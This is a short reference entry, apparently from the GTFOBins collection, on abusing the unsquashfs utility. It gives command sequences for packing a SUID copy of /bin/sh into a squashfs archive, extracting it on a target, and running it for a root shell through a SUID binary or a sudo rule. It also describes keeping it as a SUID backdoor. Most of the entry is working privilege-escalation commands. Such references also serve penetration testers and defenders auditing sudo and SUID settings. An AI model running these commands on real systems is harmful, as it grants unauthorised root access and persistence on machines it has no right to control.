 # GTFOBin: unsquashfs

`unsquashfs` preserve the SUID bit when extracting the file system. Prepare an archive beforehand with the following commands as root:

```
cp /bin/sh .
chmod +s sh
mksquashfs sh shell

```

Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which unsquashfs) .

./unsquashfs shell
./squashfs-root/sh -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo unsquashfs shell
./squashfs-root/sh -p
```